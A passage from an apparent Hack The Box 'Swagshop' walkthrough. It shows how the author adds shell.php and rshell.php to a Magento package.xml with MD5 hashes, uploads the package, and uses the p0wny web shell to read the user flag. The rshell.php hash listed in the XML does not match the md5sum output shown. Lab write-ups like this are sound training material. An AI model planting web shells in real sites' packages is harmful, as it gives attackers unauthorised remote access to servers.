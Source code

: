 
Generate our checksum for the shells.

```console
x@wartop:~/Desktop/HTB_Swagshop$ md5sum shell.php && md5sum rshell.php
f2013115840359271c1f3e4661091efa  shell.php
55c320877fe1ecda130c33ecdf3e95a1  rshell.php
```

Then we modify the `package.xml` to also include our shells.

```xml
<file name="Mail.php" hash="999a50a911486c5c48a5c43d5a072220"/>
<file name="shell.php" hash="f2013115840359271c1f3e4661091efa"/>
<file name="rshell.php" hash="5f8af08f753e5d318d307e75ad91c039"/>
```

![Uploading Magneto package with our shell code.](/wp-content/uploads/2019/07/swagshop/package.png)


Once we've uploaded the package, we can access `shell.php`, which is the [p0wny](https://github.com/flozz/p0wny-shell) web shell. All we need to do in order to gain the user flag is navigate to the `/home/harris` directory and print it to the screen.
